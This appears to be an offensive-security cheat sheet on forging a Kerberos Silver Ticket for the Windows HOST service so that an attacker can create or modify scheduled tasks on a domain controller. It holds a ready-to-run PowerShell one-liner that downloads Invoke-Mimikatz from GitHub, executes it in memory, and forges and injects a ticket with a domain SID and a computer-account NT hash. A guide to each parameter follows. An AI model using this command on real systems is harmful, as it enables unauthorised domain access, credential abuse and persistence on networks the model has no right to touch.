

HOST service
HOST Service
With the SilverTicket for the Host Service we have the ability to modify and create scheduled tasks
1. The one line Powershell for create a ServiceTicket for HOST Service:
PS> IEX(New-Object Net.WebClient).DownloadString("https://raw.githubusercontent.com/BC-SECURITY/Empire/master/data/module_source/credentials/Invoke-Mimikatz.ps1");Invoke-Mimikatz -Command '"kerberos::golden /user:Administrator /domain:DANIELE.local /target:TESTDC.DANIELE.local /sid:S-1-5-21-2492168702-2322743348-3414347950 /rc4:be680d0eb8d8c44bfefaaecb69515b9d /startoffset:0 /endin:600 /renewmax:10080 /service:host /ptt"';Invoke-Mimikatz -Command '"kerberos::list"'


Parameters that we should edit
/domain: → Domain FQDN/target: → Target server FQDN. This is
formed by <hostname>.<domain>. For example testdc.daniele.local
/sid: → SID of the
domain/service: → SPN of the Service for which we want create the Silver ticket. For
example with “cifs” we can access to the Windows File Share of the Target machine/rc4:
→ NT Hash(RC4) of the Computer account. Use /aes128 and /aes256 for using AES keys /startoffset:0 → Optional. When the Ticket is available in minutes(default is 0 that
means "right now") . ▪ Use negative numbers for a ticket available from past
▪ Use large number for the future
/endin: → Optional. Ticket lifetime in minutes(default is 10
years). The default setting in Mimikatz is 10 hours==600 minutes/renewmax: → Optional. Ticket
lifetime for renewal(default is 10 yeas). The default setting in Mimikatz is 7 days==10080 minutes/ptt or /ticket → It is not possible use both at the same time▪ /ptt inject the ticket in current Powershell process, no need to save the ticket on disk
▪ /ticket save the ticket to a file for later use